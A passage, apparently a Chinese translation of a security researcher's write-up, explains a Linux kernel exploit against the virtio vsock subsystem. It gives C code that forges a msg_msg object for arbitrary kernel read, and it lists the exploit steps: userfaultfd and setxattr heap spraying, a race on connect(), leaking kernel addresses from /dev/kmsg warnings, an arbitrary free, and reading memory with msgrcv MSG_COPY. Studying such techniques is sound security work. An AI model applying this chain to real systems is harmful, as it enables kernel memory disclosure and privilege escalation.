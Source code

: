            xattr_addr = spray_data + PAGE_SIZE * 4 - PAYLOAD_SZ;

            /* Don't touch the second part to avoid breaking page fault delivery */
            memset(spray_data, 0xa5, PAGE_SIZE * 4);

            printf("[+] adapt the msg_msg spraying payload:\n");
            msg_ptr = (struct msg_msg *)xattr_addr;
            msg_ptr->m_type = 0x1337;
            msg_ptr->m_ts = ARB_READ_SZ;
            msg_ptr->next = (struct msg_msgseg *)kaddr; /* set the segment ptr for arbitrary read */
            printf("\tmsg_ptr %p\n\tm_type %lx at %p\n\tm_ts %zu at %p\n\tmsgseg next %p at %p\n",
                   msg_ptr,
                   msg_ptr->m_type, &(msg_ptr->m_type),
                   msg_ptr->m_ts, &(msg_ptr->m_ts),
                   msg_ptr->next, &(msg_ptr->next));
        }

<translate> 但是如何使用msg_msg讀取內核數據呢？通過閱讀msgrcv()系統調用文檔，我找到了好解決方案，使用msgrcv()和MSG標誌： </translate>

    MSG_COPY (since Linux 3.8)
            Nondestructively fetch a copy of the message at the ordinal position  in  the  queue
            specified by msgtyp (messages are considered to be numbered starting at 0).

<translate> 這個標誌使內核將消息數據複製到用戶空間，不從消息隊列中刪除。如果內核有CONFIG_CHECKPOINT_RESTORE=y，則MSG是可用的，在Fedora Server適用。 </translate>

<translate>

### 任意讀的步驟

</translate>

<translate> 準備工作： 使用sched_getaffinity()和CPU_COUNT()計算可用的CPU數量（該漏洞至少需要兩個）; 打開/dev/kmsg進行解析; mmap()將spray_data內存區域配置userfaultfd()作為最後一部分; 啟動一個單獨的pthread來處理userfaultfd()事件; 啟動127個threads用於msg_msg上的setxattr()&userfaultfd()堆噴射，並將它們掛在thread_barrier上; 獲取原始msg_msg的內核地址: 在虛擬套接字上進行條件競爭; 在第二個connect()後，在忙循環中等待35微秒; 調用msgsnd()來建立一個單獨的消息隊列；在內存破壞後，msg_msg對像被放置在virtio_vsock_sock位置; 解析內核日誌，從內核警告（RCX寄存器）中保存msg_msg的內核地址; 同時，從RBX寄存器中保存vsock_sock的內核地址; 使用損壞的 msg_msg對原始msg_msg執行任意釋放: 使用原始 msg_msg地址的4個字節作為 SO_VM_SOCKETS_BUFFER_SIZE，用於實現內存破壞； 在虛擬套接字上進行條件競爭； 在第二個connect()之後馬上調用msgsnd()；msg_msg被放置在virtio_vsock_sock的位置，實現破壞； 現在被破壞的msg_msg的security指針存儲原始msg_msg的地址(來自步驟2)； </translate>

![](T01a2a2d47c9494c4a5.png "T01a2a2d47c9494c4a5.png")

<translate> 如果在處理 msgsnd() 的過程中發生了來自 setsockopt()線程的 msg_msg.security內存損壞，進而SELinux權限檢查失敗； 在這種情況下，msgsnd()返回-1，損壞的msg_msg被銷毀；釋放msg_msg.security可以釋放原始msg_msg； 用一個可控的payload 覆蓋原始msg_msg： msgsnd()失敗後，漏洞就會調用pthread_barrier_wait()，調用127個用於堆噴射的pthreads； 這些pthreads執行setxattr()的payload； 原始msg_msg被可控的數據覆蓋，msg_msg.next指針存儲vsock_sock對象的地址； </translate>

![](T0140baae964febb059.png "T0140baae964febb059.png")

<translate> 通過從存儲被覆蓋的 msg_msg的消息隊列中接收消息，將vsock_sock內核對象的內容讀到用戶空間： </translate>

    ret = msgrcv(msg_locations[0].msq_id, kmem, ARB_READ_SZ, 0,
                    IPC_NOWAIT | MSG_COPY | MSG_NOERROR);

<translate>

